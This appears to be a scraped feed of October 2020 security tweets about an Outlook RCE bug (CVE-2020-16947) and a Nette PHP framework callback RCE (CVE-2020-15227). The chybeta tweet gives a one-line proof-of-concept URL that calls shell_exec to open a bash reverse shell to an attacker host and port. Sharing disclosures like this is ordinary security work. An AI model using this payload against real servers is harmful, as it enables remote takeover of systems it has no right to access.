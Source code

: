 https://t.co/4I5ZnrNToP
</blockquote>

* https://portal.msrc.microsoft.com/en-US/security-guidance/advisory/CVE-2020-16947

<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>25</code></td>
<td>Favorites: <code>50</code></td>
</tr></table>

---
# BleepinComputer
**https://twitter.com/BleepinComputer/status/1316419307300098053 _at Wed Oct 14 16:43:15 +0000 2020_**
<blockquote>
Microsoft's October 2020 Office security updates addressed a critical Outlook vulnerability (CVE-2020-16947) that leads to remote code execution when previewing or opening maliciously crafted emails. - @serghei
https://t.co/ZBq0LeplMu
</blockquote>

* https://www.bleepingcomputer.com/news/security/microsoft-fixes-critical-outlook-bug-exploitable-via-preview-pane/

<table><tr>
<td>Quotes: <code>4</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>29</code></td>
<td>Favorites: <code>30</code></td>
</tr></table>

---
# chybeta
**https://twitter.com/chybeta/status/1316416189527068672 _at Wed Oct 14 16:30:52 +0000 2020_**
<blockquote>
CVE-2020-15227 PHP framework nette callback RCE

POC: /nette.micro?callback=shell_exec&amp;cmd=bash%20-i%20&gt;&amp;%20/dev/tcp/'+lhost+'/'+lport+'0&gt;&amp;1

https://t.co/M4oEFOYZva https://t.co/TH5Iu9lFDP
</blockquote>

* https://t.zsxq.com/zn2BQZr

<table><tr>
